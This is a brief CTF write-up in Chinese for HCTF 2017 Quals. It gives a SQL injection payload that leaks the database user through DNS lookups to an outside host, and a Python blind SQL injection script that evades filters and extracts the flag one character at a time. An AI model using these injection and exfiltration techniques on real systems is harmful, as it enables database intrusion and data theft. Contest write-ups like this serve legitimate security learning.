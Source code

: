 # HCTF 2017 Quals Writeup

> by AAA

------------------------

## easy_sign_in

证书里有个 IP，访问就有 flag

## boring website

下载备份文件，发现注释说了link server:mysql。于是注入，一套查下来就行了
```
1 union SELECT * FROM OPENQUERY(mysql,'SELECT load_file(concat("\\\\",hex(user()),".758afc7c.2m1.pw\\owo"))');
```

## SQL Silencer

+ 过滤了空格，%0b bypass
+ 接着就是不允许and or，所以用了div，exists返回0或者1，1 div 0 会出错
+ 配合regexp，单引号不能用就用0xxxxx的hex串代替字符串

```python
from requests import get

dic = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.@!"#%&\'(),-./:;<=>?[]^`{|}~*+$'
url = 'http://sqls.2017.hctf.io/index/index.php?id='
# param = "1%09div%09exists(select%09flag%09from%09flag%09where%09flag%09regexp%09binary%090x5e{})"
param = "1%09div%09exists(select%09flag%09from%09(select%09flag%09from%09flag%09where%09flag%09regexp%090x5E5B5E775D)b%09where%09flag%09regexp%09binary%090x5e{})"
payload = './'

while True:
	for i in dic:
		this_url = url + param.format((payload + i).encode('hex'))
		try:
			req = get(this_url)
			if 'Alice' in req.content:
				payload += i
				print payload
				break
			else:
				continue
		except Exception as e:
			print "error: %s" % e
```

## bin1-1

